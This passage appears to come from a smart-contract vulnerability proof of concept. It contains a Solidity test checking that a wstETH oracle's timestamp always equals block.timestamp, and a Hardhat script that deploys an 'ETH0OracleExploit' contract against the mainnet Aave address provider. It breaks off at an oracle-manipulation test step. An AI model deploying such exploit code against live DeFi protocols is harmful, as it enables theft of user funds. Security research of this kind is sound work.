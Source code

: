 ```solidity
            amount,
            "0x",
            0
        );
    }

    // Test functions to verify oracle behavior
    function testOracleTimestamp() external view returns (uint256) {
        // Get price and timestamp from oracle
        (
            uint80 roundId,
            int256 answer,
            uint256 startedAt,
            uint256 updatedAt,
            uint80 answeredInRound
        ) = ILidoProxyWstETHPriceFeed(daoCollateral.oracle()).latestRoundData();

        // Verify timestamp is always block.timestamp
        require(updatedAt == block.timestamp, "Oracle timestamp not manipulated");
        return updatedAt;
    }
}

// Helper interface for testing
interface ILidoProxyWstETHPriceFeed {
    function latestRoundData() external view returns (
        uint80 roundId,
        int256 answer,
        uint256 startedAt,
        uint256 updatedAt,
        uint80 answeredInRound
    );
}
```

To test: 

1) Deploy the exploit contract code is pasted below:

```javascript
// Deploy script
async function main() {
    const AAVE_ADDRESS_PROVIDER = "0x2f39d218133AFaB8F2B819B1066c7E434Ad94E9e"; // Mainnet
    
    const ExploitFactory = await ethers.getContractFactory("ETH0OracleExploit");
    const exploit = await ExploitFactory.deploy(AAVE_ADDRESS_PROVIDER);
    await exploit.deployed();
    
    console.log("Exploit deployed to:", exploit.address);
}
```

2) Test the Oracle Manipulation:
